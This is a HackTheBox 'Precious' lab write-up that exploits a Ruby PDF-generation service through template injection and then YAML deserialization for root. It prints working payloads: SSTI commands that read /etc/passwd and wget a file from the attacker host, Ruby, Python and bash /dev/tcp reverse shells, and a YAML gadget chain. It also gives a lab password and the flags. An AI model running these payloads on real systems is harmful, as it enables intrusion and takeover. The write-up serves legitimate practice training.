



# Precious 

## Reconnabsiance 

## nmap 
```
nmap -sV -sC -oA precious 10.10.11.189
```


- According to the nmap, I know the web server is nginx and there is another interesting program: ``` Phusion Passenger(R) 6.0.15```
- But Phusion Passenger 6.0.15 doesn't have existing cve or helpful vulnerability

## web application


## Exploit 

- Create python simple server to let web applicatoin can get file from my local
```
python3 -m http.server 9797
```


- Try the following URL and observe the result
    1. ```http://precious.htb```
    2. ```http://10.10.11.189```
    3. ```http://localhost```
    4. ```http://127.0.0.1```
    5. ```http://10.10.16.26```

- Only attacker's host(```http://10.10.16.26```) have response, all the others will response error message like "Can't load remote URL!"


- So I also tried to create a vulnerable html file(html file with xss) and upload it 
```
<html>
    <body>
        <p>hello</p>
        <iframe src=javascript:alert(1)>helell</iframe>
    </body>
</html>
```

- It will be uploaded success but the xss won't be executed.
```
http://10.10.16.26:9797/aaa.html
```


- The simple server also got 200 response, it means the file has been download from attacker's server 


- Check PDF content, I can know the PDF create by 
    - wkhtmltopdf 0.12.6



### Research wkhtmltopdf

- According to the research, the version has existing vulnerabilit -> CVE-2022-35583
- It's SSRF attack.
- But after a few of trying, it will failed.

### SSTI 

- Try the [SSTI payloads](https://github.com/payloadbox/ssti-payloads), for example:
    - ```${7*7}```
    - ```#{ 7 * 7 }```
    - ```<%= 7 * 7 %>```

- Only ```<%= 7*7 %> ``` work
- Confirm SSTI vulneraility exist
```
http://10.10.16.26:9797/aaa.html<%= 7*7 %>
```


- The simple server will get 49 after ```aaa.html```
- So, I confirmed the SSTI exist, and the result will be show in my simple server log.


- Research on this hacktrick
- Let's try to execute command like ```ls ``` to check the file.
```
http://10.10.16.26:9797/aaa.html<%= `ls ` %>
```


- Let's check the file under home to confirm user name.
- Here are 2 directories
    - henry 
    - Ruby
```
http://10.10.16.26:9797/aaa.html<%= `ls /home` %>
```


- I tried multiple command(include check passwd file and upload shell file by wget.)
- check passwd file
```
http://10.10.16.26:9797/aaa.html<%= system('cat /etc/passwd') %>
```
- Upload file by wget
```
http://10.10.16.26:9797/aaa.html<%= `wget http://10.10.16.26:9797/shell.sh -P /tmp/shell.sh` %>
```
- But I can't execute the shell by SSTI.
- So, I also try upload ruby reverse shell file, and directly execute ruby reverse shell
- Ruby reverse shell command directly, but this only only create a reverse shell in a short time.
```
http://10.10.16.26:9797/aaa.html<%= `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.16.26","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' ` %>
```
- After try different reverse shell, I found python is ok.
```
http://10.10.16.26:9797/aaa.html<%= `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.26",1336));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` %>
```


- After get reverse shell, I just got user - ruby, it's limitation.


- Enumerate in victim host, find henry's password under ``` /home/ruby/.bundle/config```


- Check config content
- Henry's Password
```
henry:Q3c1AqGHtoI0aXAYFH
```


- Using this password to login as henry
```
su henry
```


- Get uesr flag: ``` f26fc9d041a7f11170a7fd84867c7e50 ```


## Post Exploitation

- Chekc henry's sudo permission
```
sudo -l
```
- Here is a command can be executed without password
```
/usr/bin/ruby /opt/update_dependencies.rb
```


- Check update_dependencies content
```
cat update_dependencies.rb
```


- So this ruby file will load dependencies yaml file then update the dependencies to up-to-date version.
- Then research about [dependencies yaml file](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
- In this writeup, I find the following dependencies yaml sample
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```


- And according to this writeup, I know the command or reverse shell has to put in ```git set``` value.


## Privilege Escalation

- So I create my own dependencies file with reverse shell as follow: 
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "bash -c 'bash -i >& /dev/tcp/10.10.16.26/1336 0>&1'"
          method_id: :resolve 
```


- Second, create anther reverse shell by nc
```
nc -nlvp 1336
```
- Then using the following command to execute it.
```
sudo ruby /opt/update_dependencies.rb
```


- Got root permission 


- Get root flag: ``` 86c789d93e5d35e614dcf0e2e7960321 ```


## Reference 

- [(Discussion)HTB precious](https://forum.hackthebox.com/t/official-precious-discussion/268174/90)

### PDF
- [PDF metadata](https://linuxconfig.org/how-to-get-and-change-pdf-metadata-in-linux)
- [Initial access via PDF file silently](https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently)
- [(HackTrick)Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)
- [How to get and change PDF metadata from GUI](https://linuxconfig.org/how-to-get-and-change-pdf-metadata-in-linux)

### SSTI
- [(HackTrick)SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)


- [(Github)SSTI to RCE Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---retrieve-etcpasswd)
- [A Pentester’s Guide to Server Side Template Injection (SSTI)](https://medium.com/@bdemir/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)

### Reverse Shell 
- [pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [(GTFOBins)ruby](https://gtfobins.github.io/gtfobins/ruby/)
- [(Github)Ruby Reverse Shell](https://gist.github.com/gr33n7007h/c8cba38c5a4a59905f62233b36882325)
```

#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 1337, '127.0.0.1'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```

- [(Github)PayloadsAllTheThings/Methodology and Resources/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
- [Ruby reverse shell](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/ee6100e2-30cb-409a-ace2-26095e657640.xhtml)

### RCE on YAML 
- [Blind Remote Code Execution through YAML Deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)


### phusionpassenger
- [phusionpassenger official site](https://www.phusionpassenger.com/)
- [(snyk)phusionpassenge 6.0.15 cve/ vulnerabilities](https://security.snyk.io/package/rubygems/passenger)
- [(vulmon)phusionpassenge 6.0.15 cve/ vulnerabilities](https://vulmon.com/searchpage?q=phusion+passenger)

### wkhtmltopdf
- [wkhtmltopdf official site](https://wkhtmltopdf.org/)
- [(Github)wkhtmltopdf 0.12.6 cve/ vulnerabilities(CVE-2022-35583)](https://github.com/advisories/GHSA-v2fj-q75c-65mr)
- [(NVD)wkhtmltopdf 0.12.6 cve/ vulnerabilities(CVE-2022-35583)](https://nvd.nist.gov/vuln/detail/CVE-2022-35583)
- [(snyk)Server-side Request Forgery (SSRF)](https://security.snyk.io/vuln/SNYK-UNMANAGED-WKHTMLTOPDFWKHTMLTOPDF-2988835)
- [CVE-2022-35583](https://security-tracker.debian.org/tracker/CVE-2022-35583)
- [SSRF to Local File Read](http://hassankhanyusufzai.com/SSRF-to-LFI/)

### XSS Payload 

- [(HackTrick)Iframes in XSS, CSP and SOP](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp)
- [Web Security 魔法使攻略─你以為過濾就可以防範 XSS 嗎](https://ithelp.ithome.com.tw/articles/10223135)
- [不一样的xss payload](https://blog.51cto.com/sfsec/4862163)

### Command Injection 
- [Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)


### wget

-[How to specify the download location with wget?](https://stackoverflow.com/questions/1078524/how-to-specify-the-download-location-with-wget)


- [linux change user](https://dywang.csie.cyut.edu.tw/dywang/linuxSystem/node62.html)
- [Penetration Testing: find command](https://pentestlab.blog/tag/find/)
- [Find command for CTF players/ Penetration testers.](https://systemweakness.com/find-command-for-ctf-players-penetration-testers-67233cb641d)
- [Downloading files with curl](http://www.compciv.org/recipes/cli/downloading-with-curl/)

###### tags: `HackTheBox` `Easy` `linux` `SSTI` `Ruby`